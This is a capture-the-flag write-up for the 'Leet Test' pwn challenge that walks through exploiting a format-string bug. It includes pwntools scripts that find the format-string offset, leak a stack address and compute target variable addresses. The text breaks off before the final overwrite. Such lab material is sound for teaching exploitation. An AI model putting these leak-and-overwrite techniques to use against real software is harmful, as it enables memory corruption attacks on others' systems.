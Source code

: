 # Leet Test
> Write-up author: jon-brandy
## DESCRIPTION:
Are you 1337 enough?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

```
┌──(brandy㉿bread-yolk)-[~/Downloads/leet_test]
└─$ file leet_test 
leet_test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c6e69bc8fc90c94520adb2fc11a0d7d7b85326f6, for GNU/Linux 3.2.0, not stripped
```

> BINARY PROTECTIONS

```
┌──(brandy㉿bread-yolk)-[~/Downloads/leet_test]
└─$ pwn checksec leet_test                              
[*] '/home/brandy/Downloads/leet_test/leet_test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


2. After decompiled the binary, seems the concept here is overwriting stack variable using format strings vulnerability.
3. It's proven by no potential BOF but there is format strings vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6656022e-a408-4e6e-af3b-f7873e468318)


4. Analyzing the main functions, we know that we can overwrite 2 variables there, the `local_13c` which held the random values.
5. And `winner` variable which held the 0xcafebabe value.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dd203988-b454-4106-b115-ae41377c0d5c)


6. We can just overwrite them as 0, so it would be look like this:

```
0 * 0x1337c0de == 0
```

7. With this, when we run the binary, it will break out of the while loop then cat the flag for us.
8. Great! Here's what we need to do:

```
- Get the fmtstr offset.
- Calculate the exact address for the variable that held the random value.
- grab the address for winner.
```


### GET THE FORMAT STRING OFFSET

- To grab the format string offset, i used the template from pwnlib documentation and modified it.

> OUR SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[],  *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2],  *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript ='''
init-pwndbg
continue
'''.format(**locals())

exe = './leet_test'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

def payload(exp):
    sh.sendline(exp)
    sh.recvuntil(b'Hello,')
    return sh.recvline().strip()

sh = start()
#pause()
format_str = FmtStr(execute_fmt=payload)
log.success('Format strings offset : %d', format_str.offset)

sh.interactive()
```

> RESULT --> offset at 10

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/40a3d2d6-8bcb-4d55-ada0-5f9dbcf2aee8)


- Let's calc the address for the random value.

#### NOTES: When i tried to solve this challenge remotely, the offset at the remote server is different, beauty of PWN 😭. So i'm gonna show you how to solve both locally and remotely.

> CALC THE ADDRESS LOCALLY

- After grab and calculate every stack address i leaked, the correct one is at 18 (mine locally).

> USE GDBSCRIPT TO BREAK AT 0x00000000004013a7

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ee4ecec7-d600-4a73-b29e-aa96f8b10808)


> CALC SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[],  *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2],  *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript ='''
init-pwndbg
break * 0x00000000004013a7
continue
'''.format(**locals())

exe = './leet_test'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

def payload(exp):
    sh.sendline(exp)
    sh.recvuntil(b'Hello,')
    return sh.recvline().strip()

sh = start()
#pause()
format_str = FmtStr(execute_fmt=payload)
log.success('Format strings offset : %d', format_str.offset)

sh.sendlineafter(b':', '%{}$p'.format(18))
sh.recvuntil(b'Hello,')
get = sh.recvline().strip()
#print(get)
get_addr = int(get, 16)
log.success('LEAKED STACK ADDRESS --> %#0x', get_addr)

calc = get_addr - 272
log.success('CALCULATED --> %#0x', calc)

sh.interactive()
```

- Notice our RAX held the random value.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/64d8749f-a355-4ff3-b8fc-0e7064764e0d)


- And we have the same address as the random value variable.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/89329073-fa0d-4ea5-b026-17569432cd8c)


9. Now we just need to grab the `winner` address.

> RESULT --> 0x404078
 
![image](https://github.com/jon-brandy/hackthebox/assets/70703371/90bebb50-8652-41cf-b246-d556ae8837b2)


10. 
